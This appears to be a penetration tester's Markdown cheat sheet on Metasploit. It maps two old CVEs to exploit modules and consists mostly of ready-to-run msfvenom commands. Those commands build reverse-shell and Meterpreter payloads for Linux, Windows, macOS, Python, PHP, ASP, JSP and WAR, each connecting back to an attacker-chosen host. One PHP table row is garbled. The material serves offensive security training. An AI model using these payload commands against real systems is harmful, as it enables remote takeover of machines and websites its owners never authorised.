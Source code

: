 # Metasploit
#exploit #msf #metasploit


## Post-Modules
Name | Desc
--- | ---
`local_exploit_suggester` | finds exploits in x86 envs


## Correlation
Service | CVE | MSF-Module
--- | --- | ---
Samba 3.0.20 | [CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447) | exploit/multi/samba/usermap_script
Windows <7| [CVE-2008-4250](https://nvd.nist.gov/vuln/detail/CVE-2008-4250) | exploit/windows/smb/ms08_067_netapi


## MSFVenom
Source: https://netsec.ws/?p=331
Name | Desc
--- | ---
`msfvenom -l` | show payloads


### OS
Name | Desc
--- | ---
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f elf > shell.elf` | ELF / Linux
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f exe > shell.exe` | EXE / Windows
`msfvenom -p osx/x86/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f macho > shell.macho` | macho / Mac / OSX

### Prog-Langs
Name | Desc
--- | ---
`./msfvenom -p python/meterpreter/reverse_tcp lhost=192.168.1.1 -f raw -o test.py` | Python payload

### Web
Name | Desc
--- | ---
`msfvenom -p php/meterpreter_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f raw > shell.php && cat shell.php` | `pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php` | PHP
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f asp > shell.asp` |  ASP
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f raw > shell.jsp` | JSP
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f war > shell.war` | WAR


## Meterpreter
### Zugriff auf Alternate Data Stream
`cat <binary-name>:<ads-name>`